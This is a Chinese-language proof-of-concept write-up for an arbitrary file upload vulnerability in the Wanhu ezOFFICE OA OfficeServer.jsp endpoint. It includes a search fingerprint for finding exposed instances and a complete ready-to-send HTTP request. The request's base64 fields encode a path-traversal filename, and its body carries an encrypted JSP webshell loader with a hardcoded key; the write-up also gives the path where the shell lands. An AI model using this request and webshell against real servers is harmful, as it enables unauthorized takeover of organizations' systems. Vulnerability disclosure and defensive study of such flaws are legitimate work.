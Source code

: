 # 万户OA OfficeServer.jsp 任意文件上传漏洞

## 漏洞描述

万户OA 除了 /defaultroot/officeserverservlet 接口外的另一处接口 OfficeServer.jsp 同时也存在任意文件上传漏洞，导致攻击者可上传任意文件获取服务器权限

## 漏洞影响

```
万户OA
```

## 网络测绘

```
app="万户网络-ezOFFICE"
```

## 漏洞复现

产品页面

![image-20220824142451484](./images/202208241424573.png)

发送请求包

```
POST /defaultroot/public/iWebOfficeSign/OfficeServer.jsp HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/94.0.4606.81 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7,zh-TW;q=0.6
Cookie: OASESSIONID=847AE3A2E5D155AE7FB1CD2C6736CD66
x-forwarded-for: 127.0.0.1
x-originating-ip: 127.0.0.1
x-remote-ip: 127.0.0.1
x-remote-addr: 127.0.0.1
Connection: close
Content-Length: 798
		
DBSTEP V3.0     170              0                1000              DBSTEP=REJTVEVQ
OPTION=U0FWRUZJTEU=
RECORDID=
isDoc=dHJ1ZQ==
moduleType=Z292ZG9jdW1lbnQ=
FILETYPE=Li4vLi4vcHVibGljL2VkaXQvY21kX3Rlc3QuanNw
111111111111111111111111111111111111111111111111
<%@page import="java.util.*,javax.crypto.*,javax.crypto.spec.*"%><%!class U extends ClassLoader{U(ClassLoader c){super(c);}public Class g(byte []b){return super.defineClass(b,0,b.length);}}%><%if (request.getMethod().equals("POST")){String k="e45e329feb5d925b";session.putValue("u",k);Cipher c=Cipher.getInstance("AES");c.init(2,new SecretKeySpec(k.getBytes(),"AES"));new U(this.getClass().getClassLoader()).g(c.doFinal(new sun.misc.BASE64Decoder().decodeBuffer(request.getReader().readLine()))).newInstance().equals(pageContext);}%>
```

![image-20220824142511911](./images/202208241425970.png)

上传后的目录为

```
/defaultroot/public/edit/cmd_test.jsp
```

![image-20220824142536837](./images/202208241425906.png)